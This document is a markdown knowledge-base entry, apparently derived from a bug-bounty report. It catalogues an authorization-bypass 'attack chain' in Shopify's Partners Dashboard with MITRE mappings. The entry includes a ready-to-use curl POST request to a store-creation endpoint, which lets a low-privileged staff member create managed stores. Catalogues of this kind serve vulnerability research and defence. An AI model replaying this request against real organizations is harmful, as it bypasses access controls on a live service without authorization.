

---
tags:
  - improper-access-control
  - authorization-bypass
  - shopify
  - api-exploit
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Improper-Access-Control-to-Create-Managed-Stores]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:29:57.031Z'
description: >-
  This attack chain exploits improper access control in Shopify's Partners
  Dashboard, allowing low-privileged staff to create new managed stores via an
  unauthorized API endpoint, leading to potential integrity violations in
  organization management.
skill_level: intermediate
impact_level: medium
id: 257c8f8f-1f8d-445c-879a-1d15962485e7
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Unauthorized Creation of Managed Stores via Improper Access Control in Shopify Partners Dashboard

Multi-stage attack chain demonstrating a complete attack workflow exploiting access control flaws in Shopify's Partners Dashboard.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform (Shopify Partners Dashboard)
- API endpoint: /organizationID/stores/create_managed_store
- Valid staff credentials with development store management permissions (add, archive, unarchive)

### Initial Access Requirements

- Authenticated session as a low-privileged staff member
- CSRF token from the dashboard
- Network access to partners.shopify.com

## Detailed Attack Procedures

### Step 1: Exploit Unauthorized Endpoint to Create Managed Store
procedure: [[procedures/Exploit-Improper-Access-Control-to-Create-Managed-Stores]]

**Objective**: Bypass permission checks to create a new managed store using an endpoint not authorized for the current role.

**Instructions**: Authenticate into the Shopify Partners Dashboard with staff credentials limited to development store management. Extract the organization ID and CSRF token from the session. Then, use [[commands/curl-create-managed-store]] to send a POST request to the vulnerable endpoint:

```bash
curl -X POST 'https://partners.shopify.com/100808/stores/create_managed_store' \
  -H 'Content-Type: application/json' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'X-CSRF-Token: your-csrf-token' \
  -d '{"store_domain": "myStore1", "permissions": ["applications", "customers", "orders", "products", "themes"], "message": "", "collaborator_access_code": ""}'
```

Validate the response for successful store creation (HTTP 200 with store details).

**Expected Output**: JSON response confirming the new store was created, including store ID and domain.

**Success Indicators**:
- HTTP 200 response with store creation confirmation
- New store appears in the dashboard under managed stores
- No permission error in response

## Attack Chain Summary

### Key Achievements

1. Bypassed access controls to create managed stores without elevated permissions
2. Demonstrated integrity impact on Shopify's organization management
3. Highlighted risks of insufficient endpoint validation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2024-10-01T00:00:00Z*
